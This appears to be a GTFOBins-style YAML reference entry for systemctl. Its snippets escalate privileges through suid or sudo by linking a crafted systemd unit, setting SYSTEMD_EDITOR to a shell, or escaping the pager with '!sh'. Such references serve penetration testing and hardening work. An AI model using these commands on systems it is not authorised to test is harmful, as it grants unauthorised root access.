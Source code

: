 ```yaml
---
functions:
  suid:
    - code: |
        TF=/dev/shm/root.service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        systemctl link $TF
        systemctl enable --now $TF
        # www-data needs to run this:
        systemctl start $TF
  sudo:
    - code: |
        TF=/dev/shm/root.service
        echo /bin/sh >$TF
        chmod +x $TF
        sudo SYSTEMD_EDITOR=$TF systemctl edit system.slice
    - code: |
        TF=/dev/shm/root.service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        sudo systemctl link $TF
        sudo systemctl enable --now $TF
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo systemctl
        !sh
---
```

